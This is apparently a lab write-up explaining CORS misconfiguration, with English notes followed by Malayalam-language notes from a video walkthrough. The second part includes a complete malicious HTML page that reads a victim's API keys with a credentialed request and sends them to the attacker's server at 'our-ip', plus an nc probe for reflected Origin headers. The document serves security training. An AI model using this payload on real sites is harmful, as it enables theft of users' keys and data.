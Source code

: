 ## Introduction
-->This exercise covers Cross-Origin Resource Sharing and how it can be used to get access to sensitive data.
-->This course details the exploitation of a misconfigured Cross-Origin Resource Sharing (CORS) policy.
-->When misconfigured, CORS can be used to retrieve information from an API call.

# Cross-Origin Resource Sharing
## Introduction
-->One of the key security mechanism used by browsers is the Same-Origin Policy (SOP). Amongst other things, it prevents:
-   JavaScript on Site A from reading the cookies of Site B.
-   JavaScript on Site A from reading the content of Site B.
-->However, developers often want to bypass this mechanism, for example, to get access to `api.ptl.io` from `ptl.io`.
-->Historically, the most common method was to use JSONP (JSON with Padding).
-->Site A will make a request to Site B by loading a script:
```js
<script type="application/javascript" src="http://sitea/script.js?callback=mymethod" ></script>
```
And Site B will answer with:
```scss
mymethod([DATA]);
```
-->Where `[DATA]` contains the data that site B wants to share with site A.
-->The problem with this approach is that site A needs to fully trust site B as it will run arbitrary JavaScript. To limit the impact of a malicious or compromised site B, site A can use CORS.
-->CORS will use HTTP headers to allow or deny a request. The browser will send a request with an `Origin` header and the server can decide whether it allows this request. The server can allow the browser to make CORS request by responding with the header `Access-Control-Allow-Origin:` and a list of hostnames. By default, the browser will send unauthenticated requests unless the server told it not to using `Access-Control-Allow-Credentials: true`.

## Access-Control-Allow-Origin: *
-->A key point of focus when reviewing CORS policy, is the use of a wildcard:
```http
	HTTP/1.1 200 OK
	[...]
	Access-Control-Allow-Origin: *
	[...]
```
-->However, this will only allow an attacker to get a victim to do unauthenticated calls to the vulnerable site (unless another vulnerability in the browser is used).
-->When using the `Access-Control-Allow-Origin: *` even with `Access-Control-Allow-Credentials`, the browser will never send the credentials of the current user.
-->Unfortunately, CORS does not allow an application to use a wildcard like `*.ptl.io` and the developer/administrator will need to manually maintain a white-list of hostnames or add some logic inside the application/server.

## Recopy of the `Origin` header
-->To avoid using the wildcard or maintaining a white-list of websites, some implementations copy the `Origin` header from the request back in the response. Here we can see that a random value for the `Origin` header is available in the `Access-Control-Allow-Origin` response:
```bash
-> echo -ne "HEAD / HTTP/1.1\r\nHost: vulnerable\r\nOrigin: randomvaluethatisnotvalid\r\n\r\n" | nc vulnerable 80
	HTTP/1.1 200 OK
	Date: Sun, 08 Nov 2015 21:40:29 GMT
	Server: Apache/2.2.21 (Unix) DAV/2 PHP/5.4.3
	X-Powered-By: PHP/5.4.3
	Set-Cookie: PHPSESSID=fqb92hmpd98h06iceh6rjfb8j2; path=*p>
	Expires: Thu, 19 Nov 1981 08:52:00 GMT
	Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
	Pragma: no-cache
	Access-Control-Allow-Origin: randomvaluethatisnotvalid
	Access-Control-Allow-Credentials: true
	Access-Control-Allow-Methods: POST, PUT, DELETE, GET, OPTIONS
	Access-Control-Allow-Headers: Origin, X-Requested-With, Content-Type, Accept
	Content-Type: text/html
```
-->Combined with `Access-Control-Allow-Credentials: true`, this allows an attacker to trick a user visiting his website into doing Cross-Origin request and read the content of the response.

## Gaining access to data from an API call
-->Since the API calls rely on cookies to authenticate users (as opposed to using a dedicated header that will prevent this attack). You are able to create a malicious HTML page and get the victim to visit it.
-->Due to the weak CORS policy, we can get a victim visiting our website to send requests to the vulnerable website and read the response.
-->Your malicious page should perform the attack in two phases:
-   Get the victim to load the main page and retrieve the keys from the API, by first using `XMLHttpRequest()` and setting `.withCredentials` to `true`.
-   Get the victim to send the data from the API call to your server using another `XMLHttpRequest()` or another way to leak information to your server.

## Conclusion
-->This exercise showed you how to manually detect weak CORS policy and how this can be used to retrieve data from an API by tricking a victim to visit a malicious page.
-->CORS is more and more widely deployed by companies as it allows them to use content and API from multiple websites.
-->If you are testing an API or website, make sure you test for this issue.

# Video Explanation
-->lab open chyuka.enit oru account aakuka
-->namude account il keys enn oru link undakum.so athilek poyal namuk keys kanan patum
-->ini ee request eduth repeater il iduka.enit athile origin: header il entheniglum koduth send chyumbol namuk kanam ath reflect chyunun.do origin correct check chyunila site
-->so namal namude website il ninum ee page ilek request ayachalum application accept chyum angane matoralude keys namuk edukan patum ok
```html
<html>
<body>
<script>
var xhr=new XMLHttpRequest();
xhr.open("POST","http://ptl-fbafd824-4fabf863.libcurl.so/api/v1/keys",false);
xhr.withCredentials =true;
xhr.send();
var a=xhr.responseText;

var xhr2=new XMLHttpRequest();
xhr2.open("GET","http://our-ip/"+a,false);
xhr2.withCredentials =true;
xhr2.send();
</script>
</body>
</html>
```
-->ivide namal request method um url um koduthathin shesham false kodukunath enthinanenal namal oro request um symmetric aayi aan send chyunaht.so anagne send chyumbol false enn kodukanam.apol namuk oro request um individual aayi send chyan patum ok
-->so ee html oru html file il aaki.namal terminalil python vech webserver aakuka.enit namal ee url victim in koduthal ayalude key namuk terminalil kanan patum ok
